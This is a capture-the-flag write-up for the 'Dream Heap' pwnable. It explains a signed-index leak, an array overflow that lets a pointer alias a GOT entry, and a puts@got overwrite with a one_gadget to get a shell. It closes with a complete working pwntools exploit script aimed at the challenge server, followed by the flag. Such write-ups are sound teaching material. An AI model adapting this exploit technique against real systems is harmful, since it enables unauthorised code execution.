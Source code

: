 # Dream Heap

Dream Heap is a pwnable with the classic options: write, read, edit, delete:

```
Online dream catcher! Write dreams down and come back to them later!

What would you like to do?
1: Write dream
2: Read dream
3: Edit dream
4: Delete dream
5: Quit
```
There actually is a "heap" way to solve this challenge, we found another bug though that did not require any heap exploitation:

The following security measure are in place:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
So we don't have PIE and only Partial RELRO. This screams for us to overwrite some GOT entry with system or with a magic gadget.

The binary has two arrays stored in the .bss section. HEAP_PTRS[8] and SIZES[8]. HEAP_PTRS contains pointers to the dreams you allocated and SIZES contains the size of the dreams you allocated. Above them is a variable called INDEX, that holds the amount of dreams you allocated.

We can leak an address using the `Read dream` function:

```
unsigned __int64 read_dream()
{
  int index; // [rsp+Ch] [rbp-14h]
  __int64 dream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Which dream would you like to read?");
  index = 0;
  __isoc99_scanf("%d", &index);
  if ( index <= INDEX )                         // leak negative number
  {
    dream = HEAP_PTRS[index];
    printf("%s", dream);
  }
  else
  {
    puts("Hmm you skipped a few nights...");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
The index <= INDEX is a signed comparison, thus we can provide a negative index. If we provide a pointer to a GOT entry, ` printf("%s", dream)` will leak the corresponding libc address. Starting at `0x000000000400520` we have the ELF JMPREL Relocation Table that holds pointers to the GOT.
Thus by providing the correct negative offset we can leak a libc address and defeat ASLR.

Next we have to overwrite a GOT entry with a one_gadget/magic gadget (see: https://github.com/david942j/one_gadget)

For this we abuse the `Make dream` and `Edit dream` functions. Notice that in READ dream, there is no check for the amount of dreams to allocate. 

```
unsigned __int64 new_dream()
{
  int len; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  len = 0;
  puts("How long is your dream?");
  __isoc99_scanf("%d", &len);
  buf = malloc(len);
  puts("What are the contents of this dream?");
  read(0, buf, len);
  HEAP_PTRS[INDEX] = (__int64)buf;              // index can overflow into SIZES
  SIZES[INDEX++] = len;
  return __readfsqword(0x28u) ^ canary;
}
```
Remember that SIZES is 8 pointers after HEAP_PTRS. Thus we can overflow HEAP_PTRS into SIZES. Normally this would not be a problem, but HEAP_PTRS is of size 8 (pointers), while SIZES is of size 4 (int32). So at the 20th write, the lower 4 bytes of HEAP_PTRS[18] and SIZES[20] will overlap. So we can change HEAP_PTRS[18] to point to puts@got instead of a heap chunk.

Nos we will use the `Edit dream` function to change the content of a dream/"heap chunk":

```
unsigned __int64 edit_dream()
{
  int index; // [rsp+8h] [rbp-18h]
  int size; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts("Which dream would you like to change?");
  index = 0;
  __isoc99_scanf("%d", &index);
  if ( index <= INDEX )
  {
    buf = (void *)HEAP_PTRS[index];
    size = SIZES[index];
    read(0, buf, size);
    *((_BYTE *)buf + size) = 0;
  }
  else
  {
    puts("You haven't had this dream yet...");
  }
  return __readfsqword(0x28u) ^ v4;
}
```
As you probably see now, if we edit HEAP_PTRS[18], we don't actually edit a heap chunk but the content of puts@got. So we simply overwrite puts@got to point to one_gadget. The next puts call will now give us shell.


Here the full exploit:

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('dream_heaps')
libc = context.binary = ELF('libc6_2.23-0ubuntu11_amd64.so')
#libc = context.binary = ELF('/lib/x86_64-linux-gnu/libc.so.6')


host = args.HOST or 'chal1.swampctf.com'
port = int(args.PORT or 1070)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
b*0x400906
continue
'''.format(**locals())


def read(index):
    io.sendlineafter("> ", "2")
    io.sendlineafter("?\n", str(index))
    leak =  io.recvline()
    leak = leak.split("What")[0]
    leak = leak[:6]
    return u64(leak.ljust(8, '\x00'))

def write(length, content):
    io.sendlineafter("> ", "1")
    io.sendlineafter("?\n", str(length))
    io.sendlineafter("?\n", content)


def delete(index):
    io.sendlineafter("> ", "4")
    io.sendlineafter("?\n", str(index))

def edit(index, content):
    io.sendlineafter("> ", "3")
    io.sendlineafter("?\n", str(index))
    io.sendline(content)


# -- Exploit goes here --

io = start()

# Compute offset from JMPREL to HEAP_PTRS
jmprel = 0x00000004005B0 
offset = (0x0006020A0 - jmprel)/8
log.info(offset)

leak = read(-offset)
log.info("__libc_start_main@libc: 0x{:x}".format(leak))
libc.address = leak - libc.sym.__libc_start_main 
log.info("Libc: 0x{:x}".format(libc.address))

# overlap HEAP_PTRS and SIZES
for i in range(19):
    write(0x8, "A")

write(0x0, "")
write(int(exe.got.puts), "")

one_gadget = 0x45216
#local
#one_gadget = 0x4f322

# Overwrite puts@got with one_gadget
edit(18, p64(libc.address + one_gadget))

io.interactive()
```

flag{d0nt_bE_nu11_b3_dul1}
